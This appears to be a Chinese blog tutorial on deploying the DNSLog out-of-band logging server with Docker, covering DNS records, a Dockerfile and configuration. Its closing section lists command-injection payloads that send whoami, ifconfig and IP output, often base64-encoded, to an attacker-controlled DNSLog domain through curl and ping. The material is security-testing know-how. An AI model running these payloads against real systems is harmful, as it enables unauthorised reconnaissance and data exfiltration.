 Title:使用docker搭建dnslog服务器：python版开源cloudeye的部署
Date: 2018-01-04 10:20
Category: 基础知识
Tags: dnslog,docker
Slug: 
Authors: bit4
Summary: python版开源cloudeye的部署



本文档主要记录使用docker搭建dnslog的过程。

https://github.com/BugScanTeam/DNSLog

感谢[草粉师傅](https://github.com/coffeehb)的帮助

### 0x0、域名和配置

搭建并使用 DNSLog，需要拥有两个域名：

1. 一个作为 NS 服务器域名(例:code2sec.com)：在其中设置两条 A 记录指向我们的公网 IP 地址（无需修改DNS服务器，使用运营商默认的就可以了）：

```
ns1.code2sec.com  A 记录指向  10.11.12.13
ns2.code2sec.com  A 记录指向  10.11.12.13
```

2. 一个用于记录域名(例: 0v0.com)：修改 0v0.com 的 NS 记录为 1 中设定的两个域名（无需修改DNS服务器，使用运营商默认的就可以了）：

```
NS	*.0v0.com	ns1.code2sec.com
NS	*.0v0.com	ns2.code2sec.com
```

<u>注意：按照dnslog的说明是修改NS记录，但是自己的部署中修改了好几天之后仍然不正常，就转为修改DNS服务器，而后成功了。修改DNS服务器之后就无需在域名管理页面设置任何DNS记录了，因为这部分是在DNSlog的python代码中实现的。</u>

![changeNameServer](img/docker+dnslog/changeNameServer.png)

### 0x1、docker镜像构造

dockerfile内容如下

```dockerfile
FROM ubuntu:14.04

RUN sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list

RUN apt-get update -y && apt-get install -y python && apt-get install python-pip -y && apt-get install git -y
RUN git clone https://github.com/BugScanTeam/DNSLog
WORKDIR /DNSLog/dnslog
RUN pip install -r requirements.pip

COPY ./settings.py /DNSLog/dnslog/dnslog/settings.py

COPY ./start.sh /DNSLog/dnslog/start.sh
RUN chmod a+x start.sh

EXPOSE 80

```

下载 `dnslog/dnslog/settings.py`并对如下字段进行对应的修改，保持settings.py：

```python
# 做 dns 记录的域名
DNS_DOMAIN = '0v0.com'

# 记录管理的域名, 这里前缀根据个人喜好来定
ADMIN_DOMAIN = 'admin.0v0.com'

# NS域名
NS1_DOMAIN = 'ns1.code2sec.com'
NS2_DOMAIN = 'ns2.code2sec.com'

# 服务器外网地址
SERVER_IP = '10.11.12.13'
```

创建一个dnslog的启动脚本，保存为start.sh：

```bash
python manage.py runserver 0.0.0.0:80 &
```

准备好如上3个文件后，可以构建镜像了

```bash
docker build .
docker tag e99c409f6585 bit4/dnslog
docker run -it -p 80:80 -p 53:53/udp bit4/dnslog
#注意这个53udp端口，感谢CF_HB师傅的指导
./start.sh
```



### 0x2、配置验证

使用nslookup命令进行验证，如果可以直接测试xxx.test.0v0.com了，说明所有配置已经全部生效；如果直接查询失败，而指定了dns服务器为 ns1.code2sec.com查询成功，说明dns服务器配置正确了，但是ns记录的设置需要等待同步或者配置错误。

```
nslookup
xxx.test.0v0.com
server ns1.code2sec.com
yyy.test.0v0.com
```

当然，在查询的同时可以登录网页端配合查看，是否收到请求。

在我自己的部署中，发现修改ns记录很久后仍然不能直接查询到 xxx.test.0v0.com，想到NS记录配置和DNS服务器设置都是修改解析的域名的服务器配置，就尝试修改了DNS服务器为 ns1.code2sec.com, 结果就一切正常了。



### 0x3、管理网站

后台地址：http://0v0.com/admin/  admin admin

用户地址：http://admin.0v0.com/ test 123456

更多详细问题参考项目https://github.com/BugScanTeam/DNSLog

**记得修改默认的账号密码！**



### 0x4、payload使用技巧

兼容windows和linux的命令

```bash
ipconfig || ifconfig
#||是或逻辑， 如果第一个命令执行成功，将不会执行第二个；而如果第一个执行失败，将会执行第二个。

使用实例：
ping -n 3 xxx.test.0v0.com || ping -c 3 xxx.test.0v0.com
```



命令优先执行

```bash
%OS%
#windows的系统变量，用set命令可以查看所有可用的变量名称
`whomai` 
#linux下的命令优先执行,注意是反引号（`）这个字符一般在键盘的左上角，数字1的左边

测试效果如下:
root@ubuntu:~# echo `whoami`@bit4
root@bit4

E:\>echo %OS%@bit4
Windows_NT@bit4

使用实例：
curl "http://xxx.test.0v0.com/?`whoami`"
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.0v0.com
#DNS记录中获取源IP地址
```

![command_first](img/docker+dnslog/command_first.png)

消除空格

```bash
id|base64

使用实例：
curl test.0v0.com/`ifconfig|base64 -w 0` 
#-w 0 输出内容不换行，推荐这个方法
curl test.0v0.com/`ifconfig|base64|tr '\n' '-'`
#将换行符替换为-，这个方法不是很方便，解密的时候还需要替换回来
```

![base64](img/docker+dnslog/base64.png)

window下的curl

```bash
start http://xxxxxxxxx.test.0v0.com
#该命令的作用是通过默认浏览器打开网站，缺点是会打开窗口
```


